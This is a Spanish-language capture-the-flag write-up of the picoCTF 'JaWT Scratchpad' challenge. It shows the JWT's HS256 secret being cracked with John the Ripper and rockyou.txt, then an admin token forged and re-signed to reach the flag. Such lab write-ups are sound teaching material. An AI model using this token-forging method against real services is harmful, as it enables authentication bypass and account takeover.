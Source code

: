 # Objetivo

¡Consulta el bloc de notas del administrador! https://jupiter.challenges.picoctf.org/problem/58210/ o http://jupiter.challenges.picoctf.org:58210
1. ¿Qué es esa galleta?
2. ¿Has oído hablar de JWT?

## Solución

Si tratamos de loguearnos en JaWT con `admin`, nos arroja el siguiente mensaje:
```
YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
```
Si nos logueamos con un usuario que no sea admin, pues podemos entrar normal:
```
## Hello Jesus!

Here is your JaWT scratchpad!
```
Analizamos la cookie que se genero al loguearnos y vemos lo que hay en la  seccion JWT:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmVzdXMifQ.ZKrokAW0nvL7frSu38j37INQG4tpTUFJ2E5kiVf1fuY
```
Decodificamos este texto en Base 64:
```
HEADER:
{
  "typ": "JWT",
  "alg": "HS256"
}
PAYLOAD:
{
  "user": "Jesus"
}
VERIFY SIGNATURE:
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),  
)
```
Ahora, cambiamos el apartado `user`, sustituyendo por `admin` y copiamos el texto codificado modificado, para agregarlo en la cookie. Nos muesta el siguiente resultado:
```
# Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```
Observamos que no nos permitió entrar. Para volver a internar, borramos la cookie y procedemos a editar la firma.
Una vez dentro, vamos a la cookie de JWT que se creo, esto es lo que obtuvimos:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmVzdXMifQ.ZKrokAW0nvL7frSu38j37INQG4tpTUFJ2E5kiVf1fuY
```
Lo guardamos en un archivo que llamamos `hash`, y luego vamos a a herramienta que nos deja la pagina en la parte inferior, llamada `John the Ripper`.

Ahora, vamos a verificar que tengamos la lista de palabras que vamos a usar en el ataque direccionario.
```
   
┌──(jesus㉿KaliJesus)-[~]
└─$ cat hash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmVzdXMifQ.ZKrokAW0nvL7frSu38j37INQG4tpTUFJ2E5kiVf1fuY
	
┌──(jesus㉿KaliJesus)-[~]
└─$ ls /usr/share/wordlists
amass  dirbuster   fasttrack.txt  john.lst  metasploit  rockyou.txt.gz  wfuzz
dirb   dnsmap.txt  fern-wifi      legion    nmap.lst    sqlmap.txt      wifite.txt
  
┌──(jesus㉿KaliJesus)-[~]
└─$ gzip -d /usr/share/wordlists/rockyou.txt.gz
gzip: /usr/share/wordlists/rockyou.txt: Permission denied
  
┌──(jesus㉿KaliJesus)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
[sudo] contraseña para jesus: 
  
┌──(jesus㉿KaliJesus)-[~]
└─$ ls /usr/share/wordlists                         
amass  dirbuster   fasttrack.txt  john.lst  metasploit  rockyou.txt  wfuzz
dirb   dnsmap.txt  fern-wifi      legion    nmap.lst    sqlmap.txt   wifite.txt
  
┌──(jesus㉿KaliJesus)-[~]
└─$ 
```
Una ves hecho esto, vamos a ingresar el siguiente comando:
```
┌──(jesus㉿KaliJesus)-[~]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-sha256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:00 DONE (2024-03-05 18:29) 1.315g/s 9733Kp/s 9733Kc/s 9733KC/s iluve.p..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(jesus㉿KaliJesus)-[~]
└─$ 
```
Vemos que arroja la palabra `ilovepico` y esta misma la usaremos para editar y firmar el token. Obtenemos esta nueva firma:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Cambiamos el JWT de la cookie del sitio web, guardamos, cargamos y observamos que nos arroja lo siguiente:
```
## Hello admin!

Here is your JaWT scratchpad!
picoCTF{jawt_was_just_what_you_thought_44c752f5}
```
## Notas adicionales

Usamos Cookie-Editor para analizar la cookie en la sección JWT, para modificar la sección de Payload y luego modificar la cookie para intentar loguearnos.
Esta ultima acción, no funciona porque la firma no coincide y por tanto no nos permite loguearnos.

Esta firma se encuentra en la sección VERIFY SIGNATURE de la cookie de JWT.
La firma tiene un password que desconocemos, por tanto debemos proceder a hackearla.

Usando la herramienta `John de Ripper`, para cracking de contraseñas (en nuestro caso de hashes), vamos a usar un ataque direccionario para lograr obtener la contraseña que tenemos que usar para firmar nuestro toquen de tal manera que, podamos modificarlo y se pueda firmar para validarlo correctamente.

Debemos tener instalada tambien la herramienta `john`, con el siguiente comando:
```
┌──(jesus㉿KaliJesus)-[~]
└─$ sudo apt install john 
```
Este es el comando usado para crakear el archivo:
```┌──(jesus㉿KaliJesus)-[~]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-sha256
```
## Referencias

- https://jwt.io/
- https://es.wikipedia.org/wiki/JSON
- https://chromewebstore.google.com/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm?hl=es
- https://github.com/openwall/john